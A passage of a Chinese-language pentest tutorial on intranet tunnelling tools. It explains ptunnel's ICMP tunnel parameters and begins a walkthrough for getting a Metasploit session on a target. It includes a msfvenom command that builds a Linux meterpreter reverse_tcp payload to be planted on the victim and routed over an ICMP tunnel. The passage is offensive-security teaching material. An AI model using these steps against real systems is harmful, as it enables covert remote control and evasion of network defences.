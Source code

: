 # 内网隧道工具使用

## 1. ICMP隧道

### 1.1 ptunnel

> [Thorsten Alteholz / ptunnel · GitLab (debian.org)](https://salsa.debian.org/alteholz/ptunnel)

主要参数（ptunnel -h可以查看详细信息）

```
-x ：指定ICMP隧道连接的验证密码
-lp：指定要监听的本地TCP端口
-da：指定要转发的目标机器的IP地址
-dp：指定要转发的目标机器的TCP端口
-p：指定ICMP隧道连一段的IP地址
```



#### 上线msf

攻击机：开启ptunnel的server，将client端发过来的icmp流量解析成tcp的

靶机：开启ptunnel的client，监听本地的9999端口，ptunnel的client将9999端口接到的流量封装成icmp，发送到server端。

**1）攻击机操作：**

新生成msf马，然后放在靶机上

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=9999 -f elf -o exp
```

攻击机开启msf监听，此处监听的4444端口，后面会用到

![image-20231204182250798](./img/Tunnel/image-20231204182250798.png)
